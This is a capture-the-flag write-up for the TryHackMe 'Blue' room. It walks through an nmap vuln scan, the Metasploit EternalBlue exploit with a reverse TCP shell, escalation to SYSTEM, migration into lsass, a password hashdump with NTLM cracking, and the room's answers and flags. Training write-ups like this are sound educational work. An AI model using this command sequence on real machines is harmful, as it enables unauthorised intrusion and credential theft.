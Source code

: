 # [Blue][1]
Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

### [TASK 1] Recon

Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

![Nmap Scan](images/scan.jpg)

How many ports are open with a port number under 1000? **3**

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067) **ms17-010**
> To do that run nmap with *vuln* script. Command is `sudo nmap --script=vuln -Pn <IP>`

![Vuln Nmap Script](images/vuln_scan.jpg)


### [TASK 2] Gain Access

Start Metasploit
> In terminal, type `msfconsole`

Find the exploitation code we will run against the machine. What is the full path of the code? **exploit/windows/smb/ms17_010_eternalblue**

> To search for eteranlblue payloads type, `search ms17-010`

![Eternal Blue Search](images/eternal_payload.jpg)

To use this exploit, type `use 2`

Show options and set the one required value. What is the name of this value? **RHOSTS**

Set the payload as windows shell using the command `set payload windows/x64/shell/reverse_tcp`

> Make sure to check the *LHOST*, it should be the IP from your VPN connection with TryHackMe.

![Options for Eternal Blue](images/options_eternal.jpg)

With that done, run the exploit!
> Type, `run` or `exploit` to execute the payload.

![Run Command](images/get_access.jpg)

### [TASK 3] Escalate

Type, `background` to send the current session in background or you could just do `Ctrl+Z`.

![Background](images/background.jpg)

Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? **post/multi/manage/shell_to_meterpreter**
> Well, you could go online and check this. As the hint says *Google: shell_to_meterpreter*. Why don't we search this in metasploit database.

![Search Shell To Meterpreter](images/search_shell_meter.jpg)

Select this (use MODULE_PATH). Show options, what option are we required to change? **SESSION**

![Show Options](images/session_options.jpg)

Set the required option, you may need to list all of the sessions to find your target here.
> Type, `sessions` to get all the current sessions in metaspolit. Note the number for the session that has eternal blue exploit.

![Sessions](images/shell_options.jpg)

Run! If this doesn't work, try completing the exploit from the previous task once more.
> Type, `run` or `exploit` to execute the payload. Just press enter when it says Stopping ...

![Run Shell](images/run_shell.jpg)

Once the meterpreter shell conversion completes, select that session for use.
> Type, `sessions <id>`. Where *id* is the number of session which we just created i.e. *shell_to_meterpreter* one.

![Run Session2](images/session_2.jpg)

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

`getsystem`

`shell`

`whoami`

![Commands Test](images/basic_cmds.jpg)

Press `Ctrl+Z` to go back.

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\\SYSTEM and write down the process id (far left column).
> The Process we are interested in here is **lsass.exe**. Copy the Process ID. Why this? read the below question :relaxed:

![Process Running](images/ps_cmd.jpg)

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.
> In my case, it is 716 so `migrate 716`.

![Migrate](images/migrate.jpg)

### [TASK 4] Cracking

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? **Jon**

![Hashdump](images/hashdump.jpg)

Copy this password hash to a file and research how to crack it. What is the cracked password? **alqfna22**

> The format for the hash is **Userame:LM_HASH:NTLM_HASH:::**. Copy the *NTLM_HASH* and past it onto [Crack Station's Website][3].

![Crack Password](images/crackstation.jpg)

> You can also use hashcat. Check the [hashcat cheatsheet][4]. Paste the hash in a text file in format **USERNAME:NTLM_HASH**. Use, `hashcat -a 0 -m 1000 hash.txt rockyou.txt --force --username --show`


### [TASK 5] Find flags!

Flag1? This flag can be found at the system root.  
> Located in the C drive i.e. ***C:\***.

![Flag1](images/flag1.jpg)

Flag2? This flag can be found at the location where passwords are stored within Windows.
> Located where passwords are stored and i.e. ***C:\Windows\System32\config***

![Flag2](images/flag2.jpg)

Flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.
> Located in the Documents folder i.e. ***C:\Users\Jon\Documents***

![Flag3](images/flag3.jpg)

[1]: https://tryhackme.com/room/blue
[2]: https://www.hackhunt.in/search/label/Nmap
[3]: https://crackstation.net/
[4]: https://github.com/frizb/Hashcat-Cheatsheet
